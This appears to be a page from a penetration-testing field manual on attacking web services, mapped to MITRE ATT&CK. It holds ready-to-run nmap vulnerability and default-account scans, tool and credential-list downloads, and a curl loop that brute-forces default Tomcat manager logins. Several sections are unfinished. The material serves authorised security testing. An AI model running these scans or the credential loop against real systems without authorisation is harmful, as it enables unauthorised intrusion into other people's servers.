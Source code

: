 
# Flawed HTTP Remote Services

## Overview

MITRE ATT&CK mapping: T1021 / T1210

## Procedures

### Additional tools

 - [gnmap2urls.sh](scripts/gnmap2urls.sh)
 - [http-fingerprints-min.lua](scripts/http-fingerprints-min.lua)
 - [nikto vuln db file](https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests)

### Web vulnerability discovery

Prepare target list:

    # transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
    cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

Using Nikto DB:

    # get nikto vuln db file
    wget https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests -O nikto_db_tests

    # get minimal http-enum script
    wget https://raw.githubusercontent.com/mzet-/z-field-manual/master/scripts/http-fingerprints-min.lua

    # conduct http vuln scan on all previously identified http-based services:
    nmap -n -PN -sS -sV --version-intensity 2 --script=http-enum --script-args=http-enum.fingerprintfile=./http-fingerprints-min.lua,http-fingerprints.nikto-db-path=./nikto_db_tests -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-nikto-vuln-scan

Using http-vulners-regex:

```
# get latest http vulners and regex matches:
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.nse
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.json
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-paths.txt

# TODO: launch
mv http-vulners-regex.nse res/
cd /usr/share/nmap/scripts
ln -s "$HOME/res/http-vulners-regex.nse"
nmap --script-updatedb

# -sV is required as Nmap need to determine if provided ports different then 80,443 are really http-based services
# other alternative would be to change portrule to match particular port on fly (as here: https://github.com/InfosecMatter/default-http-login-hunter)
# http-vulners-regex - constructs CPEs for http-based services
# vulners - queries API at https://vulners.com for known CVEs for given CPEs
nmap -n -PN -sS -sV --open --script=http-vulners-regex,vulners -p$(cat http-ports.txt | tr '\n' ',') -iL http-ips.txt -oA vscans/http-vulners-regex
```

[snallygaster](https://github.com/hannob/snallygaster) (run in parallel)

```
TODO
```

### Web-based authentication panels

Default credentials: Nmap

```
# get Nmap's aternative default account db :
wget https://raw.githubusercontent.com/nnposter/nndefaccts/master/http-default-accounts-fingerprints-nndefaccts.lua

# transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

# change portrule in http-default-accounts script to contain all ports seen in http-ports.txt:
cp /usr/share/nmap/scripts/http-default-accounts.nse ./http-default-accounts-mod.nse
echo "portrule = shortport.portnumber({$(cat http-ports.txt | tr '\n' ',')})"

# check for default web-based accounts:
nmap -n -PN -sS -sV --open --version-intensity 2 --script=./http-default-accounts-mod.nse --script-args http-default-accounts.fingerprintfile=./http-default-accounts-fingerprints-nndefaccts.lua -T4 -iL http-ips.txt -p$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-def-accounts
```

Default credentials: changeme

```
# note: when providing file to 'changeme' full path is required:
changeme '/home/pt/httprobe-all.txt' -v -t 20 | tee changeme-http-urls.out
changeme '/home/pt/vscans/nmap.xml' --category http -v -t 20 | tee changeme-http-urls.out
```

Weak/simple credentials:

```
TODO
```


### Apache Tomcat: default/weak credentials

Use Metasploit module:

```
auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used), prepare target list:

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
cat /tmp/tomcat.csv | tr ',' ':' | tr -d '"' | grep -v 'host' | ./httpx -silent | while read l; do echo "$l/manager/html"; done | tee tomcat-urls.txt
```

Prepare creds list:

```
# Set 1:
wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/tomcat_default_79.txt
cat tomcat_default_79.txt | cut -d: -f2,3 > PAYLOADS/tomcat-defaults-1.txt

# Set 2:
$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown
$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults-2.txt
```

Launch:

```
while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults-1.txt); do RES=$(curl -k -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"); echo "$i:: $RES"; [ "$RES" -eq 200 ] && break; done; done < tomcat-urls.txt | tee tomcats-results-1.txt
```

### Wordpress

### Atlassian Confluence

### Jenkins

   https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins
   https://github.com/gquere/pwn_jenkins

### Jira

   https://github.com/bcoles/jira_scan

## OPSEC considerations

## Counter-countermeasures
